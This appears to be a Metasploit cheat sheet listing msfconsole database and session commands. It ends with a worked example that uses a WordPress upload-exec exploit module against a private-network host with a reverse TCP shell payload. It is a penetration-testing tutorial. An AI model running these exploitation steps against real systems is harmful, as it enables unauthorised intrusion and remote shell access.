 Basic usage:

```
hosts
services
# search for 'smtp' string; add returned hosts to RHOSTS
services -S smtp -R
# list http-based services; only IP and port columns; save result in file (CSV)
services -S http -c port -o /tmp/file
```

### Basic commands (in msf >)

    show auxiliary
    show exploits
    show payloads
    info [module]
    use [module]
    search [string]
    # show only exploits with 'smb'
    grep smb show exploits
    # back from current module
    back
    # list sessions
    sessions -v
    # jump to session 4
    sessions -i 4
    # list all jobs
    jobs -l
    # run exploit as job
    exploit -j

	# additional commands
	https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

### use case: Common exploitation example

    $ ./msfconsole -L
    msf > use exploit/unix/webapp/wp_property_upload_exec
    msf > info
    msf > show options 
    msf > set TARGETURI /
    msf > set RHOST 192.168.1.197
    msf > set TARGET 1
    msf > setg Proxies HTTP:127.0.0.1:8081
    msf > set PAYLOAD linux/x86/shell/reverse_tcp
    msf > show options 
    msf > show advanced
    msf > set LHOST 192.168.1.137
    msf > exploit
    press ^Z to background current session
